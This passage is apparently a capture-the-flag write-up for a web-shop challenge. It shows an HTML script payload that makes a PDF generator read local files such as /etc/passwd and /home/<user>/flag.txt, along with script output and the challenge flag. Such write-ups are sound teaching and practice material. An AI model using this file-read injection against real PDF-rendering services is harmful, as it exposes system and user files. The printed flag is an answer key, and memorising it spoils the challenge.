 The payload i ended up getting to work was:

```html
<script>
  x = new XMLHttpRequest();
  x.open('GET', 'file:///etc/passwd', false);
  x.send();
  document.write(x.responseText)
</script>
```

Minimized it looks like this:

`<script>x=new XMLHttpRequest;x.open('GET','file:///home/{i}/flag.txt',false);x.send();document.write(x.responseText)</script>`

By using this as our payload, we get the following output from the script:

```text
[*] Username: kKpYmxzInuEHcmQgSTMq
[+] Logged in successfully.
[+] Bought successfully.
```

The PDF had the following data:

<details><summary>/etc/passwd content</summary></details>

Now we have a list of all the users on the system.

## Dumping users

Now that we have a list of all users on the system, we can start looking into finding the flag. The challenge description states that the flag can be found in `/home/???/flag.txt`.

We can repeat the process that we used for flag.txt for each user.

I used the following script to try to read `/home/{username}/flag.txt` for each user:

<details><summary>Solve script</summary></details>

The PDF generated for the user `gilbert` has the flag:

![Flag](../_images/ddc-webshop-2.png)

# Flag

`DDC{m4ster_0f_r4ndom_4nd_c0nqurer_0f_PDF}`
